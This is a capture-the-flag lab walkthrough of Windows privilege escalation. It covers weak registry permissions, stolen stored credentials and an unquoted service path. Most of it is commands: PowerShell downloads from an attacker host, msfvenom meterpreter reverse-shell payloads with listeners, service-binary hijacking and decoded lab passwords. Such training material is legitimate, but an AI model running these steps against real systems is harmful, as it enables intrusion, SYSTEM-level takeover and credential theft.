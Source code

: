 ```yaml
---
date: 2025-01-19
categories: [CTF, ImmersiveLabs]
title: "IML - Privilege Escalation: Windows – Demonstrate Your Skills"
tags: ['privilege escalation', 'rce', 'reverse shell', 'windows']

description: "Privilege Escalation Windows - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Privilege Escalation: Windows – Demonstrate Your Skills


![image1](../resources/7a304a995386414aa0eeb7ca971bdfce.png)

```bash
xfreerdp /v:10.102.88.102 /u:teddy /p:burger /dynamic-resolution

```
**<u>Weak Registry Permissions</u>**

- Upload WinPEAS

Found:


![image2](../resources/de764fd4ad864270841fa567ae1509dc.png)


![image3](../resources/845fed01b4384d938ef0489ab71d375c.png)

- Can also check manullay with:
Upload accesschk64.exe

```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/accesschk64.exe',' C:\Users\teddy\accesschk64.exe')
.\accesschk64.exe #Run this first and agree to the terms
.\accesschk64.exe -kw hklm\System\CurrentControlSet\Services | Select-String -Pattern "teddy" -Context 1,3

```

![image4](../resources/01a177b5a2704990a3362fa35c2629b8.png)

```bash
reg query HKLM\system\currentcontrolset\services\InstallerService /s /v imagepath

```

![image5](../resources/9f921983d65e4456bf900f039f266305.png)

```bash
Get-Acl -Path HKLM:system\currentcontrolset\services\InstallerService | format-list

```

![image6](../resources/29dc29ab4de04e319c662bd0ad53f96d.png)

```bash
$acl = get-acl HKLM:system\currentcontrolset\services\InstallerService

ConvertFrom-SddlString -Sddl $acl.Sddl | Foreach-Object {$_.DiscretionaryAcl}

```

![image7](../resources/e693a609ebc8468e93c025fcde5ca396.png)

- Create payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.102.155.66 LPORT=4445 -f exe -o reverse.exe

```
- Set up listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.102.155.66; set lport 4445; exploit"

```
- Copy reverse payload over:
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/reverse.exe',' C:\Users\teddy\reverse.exe')

```
- Modifying The Registry "InstallerService"

We will now modify the ImagePath value for the InstallerService registry and set it as the path of the custom executable "reverse.exe"

```bash
reg add "HKLM\system\currentcontrolset\services\InstallerService" /t REG_EXPAND_SZ /v ImagePath /d C:\Users\teddy\reverse.exe" /f

```

![image8](../resources/ff5f4374191842878cdde90475b9b0a4.png)

```bash
whoami /all

```

![image9](../resources/363deb1fbd6a450db6630a5640c756bd.png)

User has the **SeShutdownPrivilege** - So we can restart the machine, which will restart the service:

```bash
shutdown /r /t 0

```
Got SYSTEM shell


![image10](../resources/32f3b39d7e4c438bab3c9f6a7ba146ef.png)

- More stable shell:
```bash
ps

migrate <ps number>

```

![image11](../resources/e8f949c517354612b93061fa2bb65d1a.png)


![image12](../resources/18f4c639c9f44123b8dfa8ff45f14238.png)

**DefaultUserAccount : U8WXLhuAVQs25f7R**

**<u>Stolen Credentials</u>**


![image13](../resources/b066c87be9984451807c42b606df997a.png)

```bash
xfreerdp /v:10.102.188.254 /u:DefaultUserAccount /p:U8WXLhuAVQs25f7R /dynamic-resolution

```
- Upload WinPEAS:
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/winPEAS.exe',' C:\Users\DefaultUserAccount\winPEAS.exe')

```

![image14](../resources/8e0cd5a5855a4e5688341e804a62574d.png)


![image15](../resources/71f674f6c0cb4476a7d3f1c2215ed1b1.png)


![image16](../resources/1916f8cd44f8436280b1a47c8b6776cc.png)

- We can read files from svcSetup:

C:\Users\svcSetup\My Documents\Shared Documents\Development\ChangePassword\credentials\pass

C:\Users\svcSetup\My Documents\Shared Documents\Development\ChangePassword\credentials\user

- Base64 decode the files:
```bash
echo "c3ZjU2V0dXA=" | base64 -d

echo "U2V0dXAtQWNjb3VudC1QYXNzd29yZC0x" | base64 -d

```

![image17](../resources/987673429cbb4a72afb0cbe186fadfb5.png)

**svcsetup : Setup-Account-Password-1**

- Run cmd as admin - More choices

![image18](../resources/49119e8dc6214447a47755e7a50f386b.png)


![image19](../resources/4aad4d87a441411c8939bc62ca2cbf1c.png)

**rudy : m9R4pvrRjgFk**

**<u>Unquoted Service Path</u>**


![image20](../resources/f507169bc8e04cc4a6871e7637849d03.png)

```bash
xfreerdp /v:10.102.131.27 /u:rudy /p:m9R4pvrRjgFk /dynamic-resolution

```
- Upload WinPEAS
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/winPEAS.exe',' C:\Users\rudy\winPEAS.exe')

```

![image21](../resources/636a6a6d1b734248bae0d3f1296058fd.png)

NewUpdaterService(NewUpdaterService)\[**C:\Program Files\Dev Builds\New Updater Service\Automatic Updater.exe**\] - Auto - Running - isDotNet - No quotes and Space detected

File Permissions: rudy \[AllAccess\]


Possible DLL Hijacking in binary folder: **C:\Program Files\Dev Builds\New Updater Service** (rudy \[AllAccess\])

- Manually Check for Services:
```bash
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where { $_.PathName -notlike "C:\Windows\*" } | select Name,DisplayName,StartMode,PathName

```

![image22](../resources/06cc989c0b3e4f4ca7e7e5ec48464c53.png)

- Enumerate the system architecture before uploading tools:
```bash
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

```

![image23](../resources/ae5e9cbce60f459b9b4b4fe3aa048d34.png)

- Upload accesschk
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/accesschk64.exe',' C:\Users\rudy\accesschk64.exe')

```
- With accesschk on the system, we want to enumerate the permissions on the service folder:

```bash
.\accesschk64.exe -wvud "C:\Program Files\Dev Builds\New Updater Service" -accepteula

```

![image24](../resources/6cc1cebb05724c189bfc86c191c16af6.png)

Rudy has FILE_ALL_ACCESS on this folder

- Create payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.102.155.66 LPORT=5555-f exe -o "Automatic Updater.exe"

```
- Set up listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.102.155.66; set lport 5555; exploit"

```
- Upload reverse shell
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/"Automatic Updater.exe"',' C:\Users\rudy\\Automatic Updater.exe"')

```
- Rename the original
```bash
mv C:\Program Files\Dev Builds\New Updater Service\Automatic Updater.exe C:\Program Files\Dev Builds\New Updater Service\Automatic.bak

```
- Move the malicious file into the original folder
```bash
mv ".\Automatic Updater.exe" "C:\Program Files\Dev Builds\New Updater Service"
```

```bash
shutdown /r /t 0 #Because we have the SeShutdown Privilege
```

Got shell

![image25](../resources/60a056233748485a912c1e04cfa98ab2.png)

- More stable shell:
```bash
ps

migrate <ps number>
```

![image26](../resources/213cd56da6394d239272c9225e743d06.png)
